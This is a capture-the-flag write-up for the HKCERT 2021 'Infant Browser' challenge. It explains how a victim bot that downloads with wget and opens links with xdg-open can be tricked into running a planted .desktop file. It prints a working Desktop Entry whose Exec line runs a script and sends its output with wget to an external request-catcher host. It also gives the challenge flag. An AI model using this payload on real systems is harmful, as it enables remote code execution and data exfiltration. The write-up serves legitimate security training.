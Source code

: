 ## Infant Browser (pwn web 50 pts)  
### Challenge:  
<http://chal-s1.hkcert21.pwnable.hk:28098/>  
<http://chal-s2.hkcert21.pwnable.hk:28098/>  

What if someone uses wget as the browser? Flag: find the flag in the root directory with name `/proof*.sh`

NOTE: Both links serve the same challenge. You may choose any one of them.

UPDATE (12 Nov 21:52): Updated link to challenge server.

* * * * *

-   The objective of this kind of challenges is to send a malicious webpage / URI to steal sensitive information or even execute arbitrary code in the victim's machine. Unlike XSS where the impact is limited to the victim's account in a particular website, a browser / desktop app exploit, or client-side attack in general, may compromise the entire victim's machine.

-   In this challenge, we are allowed to send the victim an arbitrary URI and they will open it with `xdg-open` (just like clicking on links in a browser). To trick a victim to execute arbitrary code, we can craft an XDG Desktop Entry, which could specify what command to be executed.

-   But before we can trick the victim to open the Desktop Entry, we need to write the Desktop Entry to somewhere in the local filesystem. This could be done since the victim is using `wget` as the browser, and the current working directory is writable.

-   For example, you can upload a Desktop Entry file named `example.desktop` to your website (e.g. Github page), and then ask the victim bot to download it

```
[Desktop Entry]
Exec=sh -c "wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?`/proof*.sh`"
Type=Application

```

-   If this Desktop Entry is opened, then it will execute the command after `Exec=`, which will first execute `/proof*.sh` and obtain the output, and execute `wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?(the output from executing /proof*.sh)`, which allows you to capture the flag

-   Once the `example.desktop` file is written, you can ask the victim bot to open `file:///tmp/example.desktop` so that they will execute the code you planted before

-   But make sure you use a unique filename for the Desktop Entry file since the challenge platform is common to every participants

-   Too easy for you? Now you can try babyURIi...

### Attachment
- [infantbrowser_6939c231042fd155a512940cd0982f76.zip](https://github.com/6cyril/ctf-writeups/blob/master/HKCERT%20CTF%202021/files/infantbrowser_6939c231042fd155a512940cd0982f76.zip)

### Solution:  
Create a VM online, follow challenge instructions  

Flag: `hkcert21{Infant_Browser_flag_153283eeddd3002f}`  
  
